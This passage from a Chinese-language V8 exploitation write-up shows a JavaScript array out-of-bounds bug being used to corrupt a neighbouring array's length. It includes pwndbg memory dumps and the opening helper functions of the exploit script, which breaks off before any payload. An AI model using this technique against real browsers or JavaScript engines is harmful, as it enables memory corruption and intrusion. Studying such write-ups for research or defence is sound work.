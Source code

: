 
计算arr可访问的范围

```
0x114d080881b8+19*8 = 0x114d08088250
```

可以看出，这个范围已经导入arr2的elements里，由此可以知道arr可以溢出，但是还溢出不到arr2对象那里，为了能够控制arr2对象，我们将arr2改为`var arr2 = new Array(1.1,2.2);`可以发现，通过new创建的double Array对象，其elements位于对象下方，而不是上方。

```
0x0bd3080881a5 &lt;JSArray[19]&gt;
0x0bd308088249 &lt;JSArray[2]&gt;

pwndbg&gt; x /20wx 0x0bd308088248
0xbd308088248:    0x08243905    0x080426e5    0x08088259    0x00000004
0xbd308088258:    0x08042a39    0x00000004    0x9999999a    0x3ff19999
0xbd308088268:    0x9999999a    0x40019999    0x00000000    0x00000000
0xbd308088278:    0x00000000    0x00000000    0x00000000    0x00000000
0xbd308088288:    0x00000000    0x00000000    0x00000000    0x00000000
pwndbg&gt; x /20wx 0x0bd308088258
0xbd308088258:    0x08042a39    0x00000004    0x9999999a    0x3ff19999
0xbd308088268:    0x9999999a    0x40019999    0x00000000    0x00000000
0xbd308088278:    0x00000000    0x00000000    0x00000000    0x00000000
0xbd308088288:    0x00000000    0x00000000    0x00000000    0x00000000
0xbd308088298:    0x00000000    0x00000000    0x00000000    0x00000000
```

这样，arr就可以溢出控制arr2对象的结构，改写arr2的length为更大，使得arr2也变为一个oob数组，然后后续利用就类似了。我们发现这个版本的v8开启了`compression pointer`因此利用起来可能有些麻烦，于是我们直接用构造好的oob数组来改写下方的`ArrayBuffer`以及直接从下方搜索数据，不再使用`addressOf`和`fakeObject`来伪造对象。<br>
exp

```
var buf = new ArrayBuffer(0x8);
var dv = new DataView(buf);

//将一个32位整数打包位64位浮点数
function p64(val) `{`
   dv.setUint32(0,val &amp; 0xFFFFFFFF,true);
   dv.setUint32(0x4,val &gt;&gt; 32,true);
   var float_val = dv.getFloat64(0,true);
   return float_val;
`}`

//将两个32位整数打包为一个64位浮点数
function p64(low4,high4) `{`
   dv.setUint32(0,low4,true);
   dv.setUint32(0x4,high4,true);
   var float_val = dv.getFloat64(0,true);
   return float_val;
`}`

//解包64位浮点数的低四字节
function u64_l(val) `{`
   dv.setFloat64(0,val,true);
   return dv.getUint32(0,true);
`}`

//解包64位浮点数的高四字节
function u64_h(val) `{`
   dv.setFloat64(0,val,true);
   return dv.getUint32(0x4,true);
`}`

var obj = `{``}`;
var arr = [];
```